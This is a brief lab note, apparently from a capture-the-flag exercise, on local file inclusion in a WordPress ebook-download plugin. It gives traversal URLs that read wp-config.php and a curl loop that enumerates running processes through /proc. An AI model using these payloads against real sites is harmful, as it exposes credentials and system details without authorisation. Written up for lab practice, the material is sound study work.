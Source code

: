 ```yaml
---
title: "LFI"
date: 2022-05-04T13:03:15+02:00
---
```


# LFI
 ## General info
Some LFI will look like so : 
`http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

Sometimes, the several '../../../' can be translated to : //, eg. :

`http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=//wp-config.php`

This is better looking, and shorter...

In this case, the LFI can also be used to get a list of all running process by using the info from the `/proc` filesytem. However, since the LFI return "entire" PHP code, it means we won't be able to execute any code.

## Get the list of running processes

```
for i in $(seq 0 2000); do echo -n "$i: "; curl "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=//proc/$i/cmdline" --output -; echo; done | tee pid.lst
```


We write the first 2000 processes into `pid.lst`.